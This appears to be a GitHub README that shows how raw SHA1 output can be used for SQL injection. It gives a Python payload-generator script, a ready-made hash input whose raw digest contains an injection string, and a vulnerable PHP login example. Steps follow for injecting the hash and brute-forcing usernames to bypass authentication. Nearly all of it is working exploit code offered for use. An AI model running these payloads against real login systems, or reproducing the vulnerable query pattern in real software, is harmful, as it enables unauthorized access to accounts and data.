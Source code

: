 # raw sha1 sql injection

| Hash string                | SHA1 Hash                                     | Raw output            |Query   |Author    |
| -------------------------- |:---------------------------------------------:|:---------------------:|:------:|:--------:|
| 5651578060603509           |96009c0bafe7be05e23b0079226f7222d82fee88       |E&�ɶ��'\|\|'8�vjc\�   |'\|\|'8 |0xJohannes|

# PAYLOAD GENERATION
```python
#!/usr/bin/python
 # -*- coding: utf-8 -*
import hashlib
import re
a = re.compile("'or'\d")
b = re.compile("'\|\|'\d")
d = re.compile("'OR'\d")
e = re.compile("'Or'\d")
f = re.compile("'oR'\d")
from random import randint

identifier = True
while identifier:
    rand=randint(0, 10000)
    rand1=randint(0, 10000)
    rand2=randint(0, 10000)
    rand3=randint(0, 10000)
    value='{}{}{}{}'.format(rand,rand1,rand2,rand3)
    hashed = hashlib.sha1(value).digest()
    hastrip = hashed.strip()
    print hastrip
    if a.search(hastrip)!=None or b.search(hastrip)!=None or d.search(hastrip)!=None or e.search(hastrip)!=None or f.search(hastrip)!=None:
        identifier = False
        print hashed
        print value
        break
```
#  EXAMPLE USAGE

```php
<?php

...SOME CODE...

function escape_sql()
  {
    ...sql escape...
  }
  
$pass = sha1($_POST['pass'], true);

$log = escape_sql($_POST['log']);

$sql = "select * from tablename where password=$pass AND username=$log";

...SOME CODE...
?>
```
* The first step is to inject one of suitable hashes.
* The second move is bruteforcing the login value i.e. (admin, 4dm1n and so on)
* The final step is buying me a coffee :D [![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/Wo30ewVvi)
